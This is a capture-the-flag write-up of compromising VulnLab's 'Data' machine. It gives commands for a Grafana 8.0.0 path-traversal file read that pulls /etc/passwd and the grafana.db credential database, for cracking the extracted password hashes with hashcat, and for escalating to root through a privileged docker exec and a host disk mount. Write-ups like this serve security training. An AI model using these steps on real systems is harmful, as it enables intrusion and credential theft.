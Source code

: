 ```yaml
---
title: VulnLab -- Data Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [web exploitaion]
image:
    path: /images/Data-banner.png
---
```

# Data

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Data** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.
![image.png](../images/data-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,3000 --min-rate=1000 10.10.100.171
```

![image.png](../images/data.png)

Now let’s open the website that is working on port 3000

![image.png](../images/data%201.png)

Notice that its running grafana v8.0.0

![remo.png](../images/data%202.png)

Notice that it’s vulnerable to File Read so let’s download the exploit and run it.

```bash
python3 exploit.py -H http://10.10.100.171:3000
```

![remo.png](../images/data%203.png)

> Notice that we got the content of the /etc/passwd file
> 

Now let’s save the grafana database.

```bash
curl --path-as-is http://10.10.100.171:3000/public/plugins/welcome/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```

![remo.png](../images/data%204.png)

now let’s enumerate the database for interesting things.

![remo.png](../images/data%205.png)

notice that there was a table named user.

Now let’s dump it.

```bash
select * from user;
```

![remo.png](../images/data%206.png)

now let’s go and use grafana2hash to make the hash that we can crack

```bash
go run Grafana2Hash.go 7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8 YObSoLj55S
go run Grafana2Hash.go dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8 LCBhdtJWjl
```

![remo.png](../images/data%207.png)

now let’s crack those hashes

```bash
hashcat -m 10900 crackme.txt /usr/share/wordlists/rockyou.txt
```

![remo.png](../images/data%208.png)

> Notice that we got the password do the user Boris
> 

now let’s login to the SSH

![remo.png](../images/data%209.png)

> notice that we got initial access and we can now get the user.txt
> 

Now let’s try elevating our privilege.

```bash
sudo -l
```

![remo.png](../images/data%2010.png)

notice that we can execute commands in docker as root.

now let’s enter the container.

```bash
sudo /snap/bin/docker exec --privileged --user 0 -it grafana /bin/bash
```

![remo.png](../images/data%2011.png)

Now let’s check the disks.

```bash
fdisk -l
```

![remo.png](../images/data%2012.png)

Now let’s mount this disk in our continer.

```bash
mount /dev/xvda1 .
```

![remo.png](../images/data%2013.png)

> For some reason my docker is broke and the ls command is not working 😟
> 

But! since I know that I mounted it now lets try to enter the root directory.

```bash
cd root/
```

![remo.png](../images/data%2014.png)

and now let’s get the flag.

![remo.png](../images/data%2015.png)

and we did it! we Pwned data from vulnlab

![remo.png](../images/data%2016.png)

I hope you enjoyed my solution hope we meet in future writeups and goodbye for now

Yours Remo

CRTE | CRTO | CRTP | eWPTX